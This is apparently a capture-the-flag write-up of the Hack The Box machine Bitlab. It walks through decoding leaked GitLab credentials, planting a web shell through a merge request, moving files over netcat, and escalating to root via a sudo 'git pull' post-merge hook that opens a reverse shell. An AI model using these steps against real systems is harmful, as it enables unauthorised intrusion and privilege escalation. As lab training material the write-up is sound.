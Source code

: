 2020/01/05

# HTB Bitlab

## Part 1 :: Initial Enumeration
Let's start with our usual nmap scan.
```
$ nmap -sCSV -p 1-10000 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 15:11 AEDT
Nmap scan report for 10.10.10.114
Host is up (0.057s latency).
Not shown: 9998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing too interesting here, apart from the fact that the HTTP server is running Gitlab. Seems
like this might be another code-review box, nice. No obvious ways in, so let's fire up burpsuite
and see if its spider picks up anything interesting.

So after about 30 seconds of clicking on links we land on an interesting one. The "help" link leads
us to an open directory, with an interesting "bookmarks.html" file. Let's take a look.

## Part 2 :: Initial Foothold
Hmm, it just seems to be a bunch of links. However, while most of the links go to outside URLs, the
"Gitlab Login" link is interesting. It seems to be some poorly obfuscated javascript. So let's copy
this javascript, clean it up a little and see what we can extract from it.
```javascript
function() {
    var _0x4b18 = [
        "\x76\x61\x6C\x75\x65",
        "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
        "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
        "\x63\x6C\x61\x76\x65",
        "\x75\x73\x65\/x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
        "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"
    ];

    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

So, the first thing that should jump out at you when looking at this should be the hex. Based on
the range of characters it looks like valid ascii. So let's get decoding. We'll should also rename
the array so it's a bit more readable, and take the variables out of the array in the `document`
statements at the bottom.
```javascript
function() {
    var arr = [
        "value",
        "user_login"
        "getElementById",
        "clave",
        "user_password",
        "11des0081x"
    ];

    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
}
```

Nice. It's pretty obvious this is some sort of hacky login script that this dude "clave" wrote.
Let's cut out all the crap so the javascript is readable (an unnecessary step, but indulge me).
```
function() {
    document.getElementById("user_login").value = "clave";
    document.getElementById("user_password").value = "11des0081x";
}
```

Awesome, now that we have some credentials we should use them. They're definitely for the gitlab
login page. Let's give them a go and see what we can see.

Okay, so it seems like "clave" has access to two repositories, "Profile" and "Deployer". Let's
give both of these a good read (commits, issues, pull requests, source code, etc) and see if we
can't find anything interesting. 

So "Profile" is completely uninteresting apart from the fact that it has "Auto DevOps" enabled.
"Deployer" is very interesting. It seems to be a git hook for the "Profile" repo. It looks like
whenever a successful merge request goes through on "Profile", the updated "Profile" repo is pulled
onto the server. So I think our first step should be finding where the profile page is located on
the server. What's the bet that it's just at "/profile"?

Yup, that worked. Let's see if can get a shell uploaded. It should be as simple as uploading the
shell to another branch on the "Profile" repo and submitting a merge request. Let's give this a go.

Shell successfully uploaded, merge request successful. Hopefully we should be able to see our shell
in the profile directory. Yup, there it is.
```
p0wny@shell:…/html/profile# whoami
www-data
```

## Part 3 :: Getting User & Root
Let's upload our enumeration script and see what we can find.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
```
p0wny@shell:/tmp# sh LinEnum.sh

...

-e [-] Super user account(s):
root
-e

...

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull

...
```

Huh, so it seems we can use `git pull` as sudo. We can leverage this, but it'll be a little weird.
I hope you're familiar with git. I don't want to go into too much detail as to how this exploit works,
but I'll give you an overview.
 1. You need to create two repositories: one is the remote (the "master") repository, and one is the "local" repository.
 2. You set the remote of the "local" repo to be the "master" repo you created earlier.
 3. You make changes in both repos, so when you use `git pull`, a merge is forced. 
 4. You can create a file "local/.git/hooks/post-merge", that gets executed when you `git pull`.

In the example `payload.tar`, the script that gets executed is a reverse shell. You can look
throught the provided files to get a feel for it. 

We upload our payload to the server using netcat.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > payload.tar
```
```
$ nc -lv -p 4444 < payload.tar
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```

Next we unpack it and execute `sudo git pull`. Remember we have to have netcat running on our end
to receive the reverse shell.
```
p0wny@shell:/tmp# tar xf payload.tar
p0wny@shell:/tmp# cd payload/payload
p0wny@shell:…/payload/payload# sudo git pull
```
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 59150
# /bin/bash
/bin/bash
root@bitlab:/tmp/payload/payload#
```

Awesome. Now we can get the root and user flags.
```
root@bitlab:/# cat /home/clave/user.txt
cat /home/clave/user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```
```
root@bitlab:/# cat /root/root.txt
cat /root/root.txt
8d4cc131757957cb68d9a0cddccd587c
```

## Part 4 :: Lessons Learned
 * Git hooks can be leveraged to gain privilege escalation / command execution.
 * Open directories can leak sensitive information.
 * Always enumerate for directories (dirbuster would have found both the profile page and the open help directory, we got lucky).

